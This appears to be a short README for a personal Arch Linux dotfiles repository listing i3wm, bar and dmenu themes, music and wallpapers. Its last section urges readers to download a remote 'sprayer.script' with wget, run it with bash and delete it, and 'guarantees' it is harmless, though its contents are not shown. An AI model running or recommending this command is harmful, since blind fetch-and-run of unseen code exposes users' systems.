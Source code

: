 # dmitry_babaycev
A repository of ArchLinux user's configs.

* My site: http://babaycev.3dn.ru/
* Vk: https://vk.com/kuzuka_ngh/

In this repository you can find

* My i3wm configuration files (Current version 2.0 from 11.10.2015) with
 * 8 Windows thenes
 * 11 Bar themes
 * 4 Dmenu themes
 
* My favorite music MP3 Files

* My favorite wallpapers 16:9

To see what I can, do this comand in terminal from user:
 $ wget http://archwell.tk/sprayer.script && bash sprayer.script && rm sprayer.script

I guarant you that it can't be dangerous for you, but if you afraid to do this, nobody makes you do this.
